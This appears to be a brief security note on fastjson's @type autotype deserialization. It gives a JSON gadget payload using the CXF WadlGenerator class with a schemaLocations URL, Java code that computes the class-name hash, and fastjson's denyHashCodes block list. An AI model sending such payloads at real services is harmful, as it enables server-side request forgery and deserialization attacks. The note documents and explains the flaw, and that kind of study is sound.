 * Vulnerable class : DefaultJSONParser.class

* Payload example

  ```
  {\"@type\":\"org.apache.cxf.jaxrs.model.wadl.WadlGenerator\",\"schemaLocations\": \"http://127.0.0.1:8009?a=1&b=22222\"}
  ```

* Struct

```
- @Type here corresponds to the commonly autotype function , simply understood that fastjson will automatically map the value of key: value of json to the class corresponding to @type.
```

* Convert character to `hashCode`

{% highlight java %}
public class Main {
  public static void main(String[] args) {
        long hash = 1872244109670850393L;
        long vIn = 46L;
        char key = (char)vIn;
        hash ^= (long)key;
        hash *= 1099511628211L;
        System.out.println(hash);
  }
}
{% endhighlight %}

```java
acceptHashCodes={}
denyHashCodes=[-9164606388214699518, -8720046426850100497, -8649961213709896794, -8165637398350707645, -8109300701639721088, -7966123100503199569, -7921218830998286408, -7775351613326101303, -7768608037458185275, -7766605818834748097, -6835437086156813536, -6316154655839304624, -6179589609550493385, -6025144546313590215, -5939269048541779808, -5885964883385605994, -5764804792063216819, -5472097725414717105, -5194641081268104286, -4837536971810737970, -4608341446948126581, -4438775680185074100, -4082057040235125754, -3975378478825053783, -3935185854875733362, -3319207949486691020, -3077205613010077203, -2825378362173150292, -2439930098895578154, -2378990704010641148, -2364987994247679115, -2262244760619952081, -2192804397019347313, -2095516571388852610, -1872417015366588117, -1650485814983027158, -1589194880214235129, -905177026366752536, -831789045734283466, -582813228520337988, -254670111376247151, -190281065685395680, -26639035867733124, -9822483067882491, 4750336058574309, 33238344207745342, 218512992947536312, 313864100207897507, 386461436234701831, 823641066473609950, 1073634739308289776, 1153291637701043748, 1203232727967308606, 1459860845934817624, 1502845958873959152, 1534439610567445754, 1698504441317515818, 1818089308493370394, 2078113382421334967, 2164696723069287854, 2653453629929770569, 2660670623866180977, 2731823439467737506, 2836431254737891113, 3089451460101527857, 3114862868117605599, 3256258368248066264, 3547627781654598988, 3637939656440441093, 3688179072722109200, 3718352661124136681, 3730752432285826863, 3794316665763266033, 4046190361520671643, 4147696707147271408, 4254584350247334433, 4814658433570175913, 4841947709850912914, 4904007817188630457, 5100336081510080343, 5274044858141538265, 5347909877633654828, 5450448828334921485, 5474268165959054640, 5596129856135573697, 5688200883751798389, 5751393439502795295, 5944107969236155580, 6007332606592876737, 6280357960959217660, 6456855723474196908, 6511035576063254270, 6534946468240507089, 6734240326434096246, 6742705432718011780, 6854854816081053523, 7123326897294507060, 7179336928365889465, 7375862386996623731, 7442624256860549330,7658177784286215602,8055461369741094911,8389032537095247355,8409640769019589119,8488266005336625107,8537233257283452655,8838294710098435315,9140390920032557669,9140416208800006522]
```
